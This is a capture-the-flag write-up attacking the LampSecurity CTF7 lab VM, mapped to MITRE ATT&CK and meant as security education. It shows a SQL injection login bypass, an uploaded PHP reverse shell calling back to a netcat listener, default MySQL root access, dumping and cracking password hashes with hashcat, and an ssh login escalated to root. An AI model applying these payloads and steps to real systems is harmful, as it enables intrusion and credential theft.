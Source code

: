 # **Attack on CTF7 Virtual Machine**

**Daniele Maijnelli**

---


### **Preliminary information**

- The attacking machine is a Kali VM in the same network of the target machine
- The target machine is a VM that can be downloaded at https://www.vulnhub.com/entry/lampsecurity-ctf7,86/
- The **objective** of the attack is: Gaining root privileges on the target machine
- The **threat model** is: The attacker can communicate with the target machine
- The attack will be described in terms of the MITRE ATT&CK framework (Tactics and Techniques)
- This activity is based on the walkthrough that can be found at the following link
https://www.hackingarticles.in/hack-the-lampsecurity-ctf-7-ctf-challenge/

### **Discovery**

The first phase consists in finding information about the target that is useful for performing initial access. I will use `nmap`, a network exploration tool installed by default on Kali. The first command to execute is `ip addr`, that allows to see the IP address of the attacker machine (`192.168.56.101`) and to obtain the network number of the network that connects the two machines (`192.168.56.0/24`). To obtain the IP address of the target machine, I execute `nmap 192.168.56.0/24`, a command that tries to contact all the IP addresses in the specified network number and lists for each of them the reachable port numbers. This command allows to execute the following two techniques.

![First_Commands](Screen1.png)

#### Remote System Discovery 

The IP address of the target machine is `192.168.56.102`. Since the machines are not connected to the Internet, there is no gateway, they can only communicate between themselves.

#### Network Service Discovery

There are several ports reachable, the ones of interest to us are: 
- 80 and 8080 for HTTP traffic (these will be used in the first parts of the attack)
- 22 for ssh (this will be used at the end of the attack to connect with valid credentials)

By visiting the home page (URL: ```http://192.168.56.102```) on the browser, it appears that there is nothing useful to continue the attack, so I try contacting the other port number (URL: `http://192.168.56.102:8080`). Here there is a login page that can be abused to gain initial access.

### **Initial Access**

#### Exploit Public-Facing Application
To proceed, since I don't know the credentials, I try several usernames with special characters hoping that the system will leak information about the internal functioning through some error messages. Trying with `'` as username and without inserting a password, the system gives the following error message:

`Invalid query: Yout have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near "'" AND password=md5(") and is_admin=1' at line 1`
`Whole query: select * from users where username='" AND password=md5(") and is_admin=1`

Now I know that the target machine is using MySQL and also the whole query that is being used. To access as admin, I perform a SQL injection, that is inserting a username value carefully constructed (the exploit is the HTTP request that answers the form, the payload is the username value `' or 1=1 -- .`) to cause a DBMS to consider it as SQL code inside a query instead of a normal username. For the password, it's possible to leave the field empty, it is not relevant since it will not be considered due to the injected exploit. The exploit works because the query executed in the target machine after the injection becomes `select * from users where username=' or 1=1 `, the remaining code will be considered as a comment due to the `-- .` part of the exploit, so it won't be executed. 

![SQL_Injection](Screen2.png)

### **Persistence**

#### Server Software Component &rarr; Web Shell

In order to have a persistent way to connect and execute code on the target machine, now the goal is to upload a web shell on the target machine, the objective is to find a page that allows to upload files. Exploring the website, eventually it will be discovered that such a page is reachable for logged users by clicking on "Manage Offerings" &rarr; "Reading Room".
To continue, click on "Add New" and fill the form (if this was a real attack it could be useful to disguise this action as a legitimate one, by putting a realistic name and description for the uploaded file). The web shell I inject is already available on every Kali machine at the path `/usr/share/webshells/php/php-reverse-shell.php`, the only configuration required is modifying the script of the web shell with the appropriate IP address (the one of the attacker machine) and port number (in this case I use the default one, 1234) that the web shell will try to connect to.
It is important to observe that the web shell installed on the victim machine is not used with HTTP, an HTTP request will trigger the target machine to create a process that will execute a shell and then connect its input and output to a TCP connection (the TCP connection goes from the target machine to `IP_address:port_number` specified in the file of the web shell). Therefore, more precisely the uploaded file is a reverse shell on a web server, not a web shell. 

![Web_Shell](Screen3.png)

### **Discovery**

To execute the web shell, it is necessary to know where the php file has been stored inside the target machine. To perform this step, I will use `dirb`, it is a directory scanner already included in Kali that searches web servers for hidden files, directories, and pages. It works by sending several HTTP requests to the web server and analyzing the responses, each request differs in the third part of the URL, that is selected based on a customizable dictionary (here I use the default one). 

![Dirb_Output](Screen4.png)

#### File And Directory Discovery

By analyzing the output of `dirb https://192.168.56.102` in the browser, it's easy to discover that the directory containing the web shell is `/assets`. 

### **Execution**

#### Command and Scripting Interpreter

In order to connect to the web shell, I will use `netcat`, a tool already installed in Kali used to establish and use a network connection. In this case I use the command `netcat -lvnp 1234`, that spawns a server process that listens on the port 1234. Now it is time to execute the web shell, to do so click on the corresponding php file at the URL `https://192.168.56.102/assets`. To have a more complete shell, I invoke the command `python -c 'import pty;pty.spawn("/bin/bash")'`.

### **Privilege escalation**

#### Valid Accounts &rarr; Default Accounts

Before I used a SQL injection to gain initial access, therefore a DBMS is being executed on the target machine, now the objective is to access the databases inside the target machine with root privileges. I abuse the default credentials composed of **username:root** and **password:*blank***, with the command `mysql -u root`.

![Privilege_Escalation](Screen5.png)

### **Credential Access**

#### Brute Force &rarr; Credentials from Password Stores

Now the objective is to gain guessing material leveraging the root privileges have just been obtained, to do so I invoke `show databases;`, looking at the output, the `website` database contains the table with the hashes of the passwords, to see its tables I invoke `use website;` and then `show tables;`. Finally, to read the content of the target table, invoke `select username,password from users;`. The users are listed in cleartext, the hashes of the passwords are in MD5 format.

![Guessing_Material](Screen6.png)

#### Brute Force &rarr; Password Cracking

Now I use Hashcat (a password cracking tool) to obtain the passwords corresponding to the hashes found in the database. In order to perform this step, I invoke

`hashcat -m 0 -a 0 -o /home/daniele/Documents/passwords.txt /home/daniele/Documents/hashes.txt /usr/share/wordlists/rockyou.txt`

Regarding the command:

- `-o /home/daniele/Documents/passwords.txt` specifies the path of the output file, where the cracked passwords will be written.
- `/home/daniele/Documents/hashes.txt` is the path of the file containing the hashes.
- `/usr/share/wordlists/rockyou.txt` is the path of the password dictionary, this one in particular is already installed in every Kali machine.

![Passwords](Screen7.png)

### **Privilege escalation**

#### Valid Accounts &rarr; Local Accounts

To become root on the target machine, I try the passwords we just found with the corresponding usernames to perform an ssh login with the target machine, hoping in a credential overlap. The result is that **user:brian** and **password:my2cents** are valid. So, the next step is invoking `ssh brian@192.168.56.102` and inserting the password. Then in order to check sudo rights for him I invoke `sudo -l`. From the result it appears that he has every sudo right. To complete the attack, I invoke a shell as root on the target machine with `sudo su`.

![Root_Shell](Screen8.png)